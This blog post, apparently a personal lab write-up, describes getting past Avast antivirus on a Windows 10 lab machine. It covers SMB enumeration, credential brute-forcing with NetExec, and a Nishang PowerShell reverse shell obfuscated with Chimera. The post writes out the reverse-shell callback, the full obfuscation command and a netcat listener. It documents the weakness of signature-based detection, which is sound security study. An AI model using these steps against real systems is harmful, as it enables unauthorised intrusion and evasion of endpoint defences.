 ```yaml
---
layout: post
date: 2024-02-22
title: "Bypassing Avast with Obfuscated PowerShell: A Lab Experiment"
categories: []
tags: []
---
```


Greetings! I was bored so I decided to see how hard it would be to bypass a simple home antivirus. I googled "free antivirus" and the first thing that popped-up was [Avast](https://www.avast.com/en-us/index#pc). I installed the x64 executable on an updated Windows 10 Pro system (Note: This is a completely default install. I did not mess with any settings). I wanted to do this in a lab environment where I achieve access prior to trying to get around the antivirus. A screenshot confirming the antivirus is running can be seen below.

![Image of Avast showing the Windows PC is protected.](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/Protected_Avast_Screenshot.png)

This lab environment is simply a Windows 10 Pro box with some professional modifications and an Attack Host (Kali Linux) on the same private network. Initially, I started an NMAP scan to enumerate the host.
![Screenshot of NMAP command against Windows 10 Host](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/NMAP_Scan_Screenshot.png)

As seen in the screenshot above, SMB (Port 445) is running. To enumerate SMB, I used smbclient to successfully authenticate with the '-N' (no username/password) option. 
![Screenshot of SMBClient listing with null session to see shared drives](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/SMBClient_List_Screenshot.jpeg)
Following successful connection, I attempted to place a file without a username and password. This attempt failed due to security settings as seen in the screenshot below. 

![Screenshot of SMBClient failing to put a file](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/SMBClient_Put_Screenshot.jpeg)

The earlier screenshot had a comment from "lemon" - so let's try to brute-force credentials for username "lemon". The [Netexec](https://github.com/Pennyw0rth/NetExec) tool
![Netexec Brute-force for SMB screenshot](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/Netexec_Brute_Force.jpeg)

We find credentials for `lemon:CHOCOLATE`
Then we can authenticate and attempt to place a reverse shell script [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

![Attempt to place a shell in the SMB share](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/SMBClient_placing_shell.jpeg)

The reverse shell gets stuck uploading in the previous image. Swapping over to the Windows 10 host, there is a Warning from AVAST that quarantined the reverse shell as it was uploaded. 
![Warning from AVAST for Reverse Shell](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/AVAST_Reverse_Shell_warning.jpeg)

Avast was likely able to detect a threat here because [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) is a seven year-old reverse shell script with around 8,000 stars on Github. Although this script isn't necessarily malware, it definitely isn't a script an administrator would commonly use. Thus, it is classified as a PUP (Potentially Unwanted Program) and blocked.

My initial thought to evade detection is to obfuscate the script. Through my professional Googling I was able to find a script called [Chimera](https://github.com/tokyoneon/Chimeramade) made  by [TokyoNeon](https://x.com/tokyoneon_?s=20).

>Chimera is a (shiny and very hack-ish) PowerShell obfuscation script designed to bypass AMSI and antivirus solutions. It digests malicious PS1's known to trigger AV and uses string substitution and variable concatenation to evade common detection signatures.

So, I cloned the repository and adjusted the last line in the reverse shell in `shells/Invoke-PowerShellTcp.ps1` to: 

```
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.0.175 -Port 8080
```

Once that is saved, I ran the script `chimera.sh` with options provided from `README.md`:

```
./chimera.sh -f shells/Invoke-PowerShellTcp.ps1 -l 3 -o /home/kali/NotAVirus.ps1 -v -t powershell,windows,\
copyright -c -i -h -s length,get-location,ascii,stop,close,getstream -b new-object,reverse,\
invoke-expression,out-string,write-error -j -g -k -r -p
```

This obfuscates the script and places it in the home directory. Next, I started a listener on my host:

```
nc -lnvp 8080
```
Let's test. I uploaded the script via smbclient using lemon's credentials as we did before.  

![Successfully uploading Virus file to Windows Host - Also, why are you reviewing my source code?](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/Uploading_Virus_Successfully.jpeg)

After waiting for a few minutes for the script to automatically execute, the netcat listener receives a connection back from the Windows host.

![Connection recieved from the reverse shell screenshot](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/Reverse_Shell_Recieved.png)

To test command execution, I issued `whoami /groups` which reveals the current user is an administrator.

![Output from the command "Whoami /groups"](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/WHOAMI_GROUPS_SCREENSHOT.png)

Furthermore, I confirmed the connection was active in command prompt with `netstat` and Avast wasn't showing any alerts. I would assume this is because an outgoing connection via PowerShell isn't inherently malicious. If anything, this demonstration shows the downfalls of signature-based detections.

![Checking netstat in cmd prompt and Antivirus status](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/Connection_Active_Protected_Screenshot.jpeg)

Issuing additional commands to confirm I have administrator privileges and the reverse shell works:

![Screenshot with additional commands in Administrator's home directory](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/Confidential_Screenshot.jpeg)

This was a fun exercise to try and get around pesky AVs. Further documentation and reading on the obfuscation script can be found here:
I hope you enjoyed reading! 

Additional resources:

- [Null Byte website](https://null-byte.wonderhowto.com/how-to/hacking-windows-10-bypass-virustotal-amsi-detection-signatures-with-chimera-0333967/)
- [Chimera Github Link](https://github.com/tokyoneon/Chimera)
- [Trend Micro ASMI bypass techniques](https://www.trendmicro.com/en_vn/research/22/l/detecting-windows-amsi-bypass-techniques.html)

